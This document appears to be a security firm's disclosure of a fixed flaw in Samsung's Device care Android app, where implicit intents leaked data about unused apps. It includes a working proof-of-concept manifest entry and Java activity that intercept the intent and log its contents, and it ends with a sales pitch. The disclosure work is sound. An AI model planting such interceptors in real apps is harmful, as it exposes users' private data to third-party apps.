

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Device care</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.lool</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.20</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.12.06</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$250</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found the use of implicit intents in the Device care app to launch activities. These intents contained data about unused apps. They could have been intercepted by any third-party apps installed on the same device.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<activity android:name=".InterceptActivity" android:exported="true">
    <intent-filter android:priority="999">
        <action android:name="com.samsung.android.sm.ACTION_SYSTEM_AND_OTHERS_ACTIVITY" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

File `InterceptActivity.java`:
```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    DumpUtils.dump(getIntent(), getForeignClassLoader(getCallingPackage()));
    finish();
}

private ClassLoader getForeignClassLoader(String packageName) {
    try {
        return createPackageContext(packageName, CONTEXT_INCLUDE_CODE | CONTEXT_IGNORE_SECURITY)
                .getClassLoader();
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.